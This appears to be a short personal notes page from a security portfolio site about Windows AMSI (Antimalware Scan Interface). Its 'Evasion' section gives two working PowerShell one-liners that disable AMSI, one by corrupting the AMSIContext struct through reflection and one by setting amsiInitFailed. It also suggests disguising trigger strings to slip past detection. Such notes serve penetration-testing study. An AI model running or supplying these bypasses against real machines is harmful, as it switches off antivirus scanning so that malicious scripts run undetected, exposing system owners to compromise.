

repository: jh1h1h/portfolio · page: docs/general/AMSI.html · generator: docusaurus

AMSI: Antimalware Scan Interface. Passes run-time scripts to AV software so it can detect malware even if nothing stored in disk

Panic mode: Note that using a large number of AMSI trigger strings while testing may cause a "panic" in AMSI and it will suddenly consider everything malicious. At this point, the only remedy is to reboot the system.

## Evasion

### Corrupting AMSIContext
AMSIContext is a struct used by AMSI. Corrupting it causes AMSI to fail to start.
```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

### Setting AMSIInitFailed to true
Same reasoning as above but edit the function below to use the methods in [Corrupting AMSIContext](#corrupting-amsicontext) to avoid using strings that would trigger AMSI like 'AmsiUtils' and 'amsiInitFailed'
```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
